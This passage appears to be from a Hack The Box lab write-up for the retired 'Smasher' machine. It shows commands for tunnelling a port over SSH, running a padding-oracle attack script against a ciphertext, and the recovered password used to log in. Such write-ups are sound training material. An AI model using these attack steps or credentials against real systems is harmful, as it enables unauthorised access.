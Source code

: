### Oracle padding
I will use [this script](https://gitlab.com/epi052/htb-scripts-for-retired-boxes/-/blob/master/smasher/smasher-padding-oracle.py) to get smasher's pw with a padding oracle attack.  
It uses the `paddingoracle` python lib so install it with pip!  
```
pip install paddingoracle --user
```

We also have to tunnel the **1337 port**!
```
ssh -L 1337:localhost:1337 -i ~/.ssh/id_rsa www@10.10.10.89
```

Now, just run the script like a 1337 H4x0r!  
![](https://media.giphy.com/media/YQitE4YNQNahy/giphy.gif)

```
python expl/padding_oracle.py -b 16 'irRmWB7oJSMbtBC4QuoB13DC08NI06MbcWEOc94q0OXPbfgRm+l9xHkPQ7r7NdFjo6hSo6togqLYITGGpPsXdg==' 127.0.0.1 -p 1337
```

Get a coffe, stand up do anything u can do while it's cracking the hash!  
![](img/oracle_user.png)  
![](img/oracle_pw1.png)  
![](img/oracle_final.png)  

Finally, we got it (start: 16:56, end: 17:12 (after ~16 min))  
```
smasher:PaddingOracleMaster123
```

SSH in as **smasher** with the pw we got!  
![](img/user2.png)
